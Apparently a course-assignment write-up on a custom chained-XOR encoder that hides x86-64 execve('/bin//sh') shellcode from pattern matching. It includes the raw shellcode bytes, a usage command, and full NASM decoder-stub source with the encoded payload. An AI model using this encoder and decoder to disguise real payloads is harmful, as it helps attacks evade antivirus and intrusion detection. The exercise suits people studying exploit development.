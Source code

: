# Custom Encoder

This assignment was about implementing a custom encoder that encodes a shellcode so that it bypasses pattern matching and keeps the reverse engineers busy for a while.

Many encoders already exist: rotencoder, caesar encoder or xor encoder to name a few.
I decided to implement an encoder that that takes a one byte seed as an argument and xors the first byte with this seed. The result of this operation is then used to xor the next byte and so on. 

```
            +-------------+--------------+
            |    byte 1   |    byte 2    |
            +------+------+------+-------+
                   |             |
                   v             v
      Seed      +--+--+       +--+--+
+-------------->+ XOR +-------> XOR +---------->
                +--+--+       +--+--+
                   |             |
                   |             |
            +------v------+------v-------+
            |  Encoded 1  |  Encoded 2   |
            +-------------+--------------+
```

The encoder is implemented in python and can be used like this:
```
python2 Encoder.py -sh "\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05" -k "A"
```

-sh is the original shellcode
-k is the seed

It produces a .asm file that contains the decoding routine and then executes the decoded shellcode.

## Decoder

```
KEY equ 'A'
LEN equ 32
global _start:
section .text

_start:
    jmp _get_pointer ; use call pop technique to get a pointer to the encoded shellcode

_decode:
    pop rdi ; rdi points to encodedshellcode

    push KEY
    pop rsi ; rsi contains the key
    xor rax, rax
    xor rcx, rcx
    cdq ; rax, rcx and rdx are 0

_loop: ; loop over the encoded shellcode and undo the encoding
    
    cmp rcx, LEN  
    jg EncodedShellcode ; if this branch is taken the decoding is done and the shellcode can be executed

    mov al, [rdi] 
    xor al, sil
    mov sil, [rdi]
    mov [rdi], al


    inc rdi
    inc rcx
    jmp _loop

_get_pointer:
    call _decode
    EncodedShellcode: db 0x9,0x38,0xf8,0xa8,0xe0,0x5b,0x74,0x16,0x7f,0x11,0x3e,0x11,0x62,0xa,0x59,0x11,0x98,0x7f,0x2f,0x67,0xee,0xc,0x5b,0x13,0x9a,0x7c,0x34,0xb7,0x77,0x4c,0x43,0x46
```
